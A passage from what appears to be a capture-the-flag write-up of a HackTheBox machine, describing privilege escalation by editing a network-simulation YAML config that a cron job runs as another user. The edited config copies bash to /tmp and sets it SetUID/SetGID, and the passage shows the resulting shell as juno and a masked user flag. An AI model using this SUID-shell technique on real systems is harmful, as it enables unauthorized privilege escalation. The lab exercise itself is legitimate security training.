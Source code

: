 
It’s creating a network with a single gigabyte switch, and then four hosts.
The first is a server the runs a Python webserver after three seconds, and
then three clients that use `curl` to request that page after five seconds.

#### Modify

It looks like this can run whatever programs I want it to run. I’ll update the
`network-simulation.yml` file in `/dev/shm`:

    
    
    general:
      stop_time: 10s
      model_unblocked_syscall_latency: true
    
    network:
      graph:
        type: 1_gbit_switch
    
    hosts:
      server:
        network_node_id: 0
        processes:
        - path: /usr/bin/cp
          args: /bin/bash /tmp/0xdf
          start_time: 3s
        - path: /usr/bin/chmod
          args: 6755 /tmp/0xdf
          start_time: 5s
    

I’ll just have it create a single server with two processes. The first will
create a copy of `bash` in `/tmp` and the seconds will set it as
SetUID/SetGID. Once the cron runs, `/tmp/0xdf` is there, owned by juno,
SetUID/SetGID, and running it with `-p` gives a shell with effective uid and
gid of juno:

    
    
    postgres@jupiter:/dev/shm$ ls -l /tmp/0xdf 
    -rwsr-sr-x 1 juno juno 1396520 Aug 31 20:56 /tmp/0xdf
    postgres@jupiter:/dev/shm$ /tmp/0xdf -p
    0xdf-5.1$ id
    uid=114(postgres) gid=120(postgres) euid=1000(juno) egid=1000(juno) groups=1000(juno),119(ssl-cert),120(postgres)
    

I’m able to read `user.txt`:

    
    
    0xdf-5.1$ cat user.txt
    471f84c2************************
    

## Shell as jovian

### SSH as juno
